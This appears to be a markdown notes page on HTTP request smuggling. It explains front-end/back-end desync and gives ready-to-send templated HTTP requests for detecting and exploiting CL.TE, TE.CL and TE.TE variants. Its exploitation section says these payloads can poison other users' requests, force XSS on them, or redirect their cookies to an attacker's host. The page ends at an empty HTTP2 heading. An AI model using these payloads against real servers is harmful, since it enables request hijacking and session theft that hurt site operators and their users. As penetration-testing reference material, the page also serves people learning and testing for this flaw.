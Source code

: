 ```yaml
---
title: Request Smuggling
description: HTTP request smuggling is a technique for interfering with the way a web site processes sequences of HTTP requests that are received from one or more users. Request smuggling vulnerabilities are often critical in nature, allowing an attacker to bypass security controls, gain unauthorized access to sensitive data, and directly compromise other application users.
---
```


## What happens in an HTTP request smuggling attack?

Today's web applications frequently employ chains of HTTP servers between users and the ultimate application logic. Users send requests to a front-end server (sometimes called a load balancer or reverse proxy) and this server forwards requests to one or more back-end servers. This type of architecture is increasingly common, and in some cases unavoidable, in modern cloud-based applications.

When the front-end server forwards HTTP requests to a back-end server, it typically sends several requests over the same back-end network connection, because this is much more efficient and performant. The protocol is very simple: HTTP requests are sent one after another, and the receiving server parses the HTTP request headers to determine where one request ends and the next one begins:

![State of the art server-side communication](https://portswigger.net/web-security/images/forwarding-http-requests-to-back-end-server.svg)

In this situation, it is crucial that the front-end and back-end systems agree about the boundaries between requests. Otherwise, an attacker might be able to send an ambiguous request that gets interpreted differently by the front-end and back-end systems:

![Request smuggling attack](https://portswigger.net/web-security/images/smuggling-http-request-to-back-end-server.svg)

Here, the attacker causes part of their front-end request to be interpreted by the back-end server as the start of the next request. It is effectively prepended to the next request, and so can interfere with the way the application processes that request. This is a request smuggling attack, and it can have devastating results.

## Notation

- **CL.TE**: front-end server uses the `Content-Length` header and the back-end server server uses the `Transfer-Encoding` header.
- **TE.CL**: front-end server uses the `Transfer-Encoding` header and the back-end server server uses the `Content-Length` header.
- **TE.TE**: the front-end and back-end servers both support the `Transfer-Encoding` header, but one of the servers can be induced not to process it by obfuscating the header in some way.


## Detection

Please **FIRST** try detecting **CL.TE** as if it is vulnerable to it, the **TE.CL** detection payload wil poison the socket and cause a lot of harm

### **CL.TE** detection

Send the following request:

```http
POST {{ path /about }} HTTP/1.1
Host: {{ target-domain vulerable.net }}
Transfer-Encoding: chunked
Content-Length: 4

1
Z
Q
```

There is 4 possible outcomes:
 - CL.CL: backend response
 - TE.TE: frontend response
 - TE.CL: frontend response
 - **CL.TE: timeout** (_vulnerable_)

Only after confirming no **CL.TE** desync attacks can be performed you can check the next variant:


### **TE.CL** detection

Send the following request:

```http
POST {{ path /about }} HTTP/1.1
Host: {{ target-domain vulerable.net }}
Transfer-Encoding: chunked
Content-Length: 6

0

X
```

There is 4 possible outcomes:
 - CL.CL: backend response
 - TE.TE: backend response
 - **TE.CL: timeout** (_vulnerable_)
 - _CL.TE: socket poison_ 💀




## Exploitation


### CL.TE

You can just _poison_ legitimate requests. For example the following request would result on the next user doing a `SMUGGLEDPOST` request:

```http
POST {{ path /about }} HTTP/1.1
Host: {{ target-domain vulerable.net }}
Connection: keep-alive
Content-Type: application/x-www-form-urlencoded
Content-Length: 13
Transfer-Encoding: chunked

0

SMUGGLED
```

You can Actually change other users requests, so you can force them  to execute a XSS for example. It is also common for web proxies to hapily redirect users based on the host header so you could redirect people to your collaborator with their cookies by just specifiying a host header for the users.



### TE.CL


```http
POST {{ path /about }} HTTP/1.1
Host: {{ target-domain vulerable.net }}
Cookie: session=fnJJc90vRfPmIYHB3xmzTYJyhLx5JhGO
Content-Type: application/x-www-form-urlencoded
Content-Length: 3
Transfer-Encoding: chunked

9d
GPOST / HTTP/1.1
Host: {{ target-domain vulerable.net }}
Content-Type: application/x-www-form-urlencoded
Content-Length: 123

a=
0


```



## TE.TE into CL.TE


```http
POST {{ path /about }} HTTP/1.1
Host: {{ target-domain vulerable.net }}
Content-Type: application/x-www-form-urlencoded
Content-Length: 6
Transfer-Encoding: cow
Transfer-Encoding: chunked

0

G
```

## HTTP2


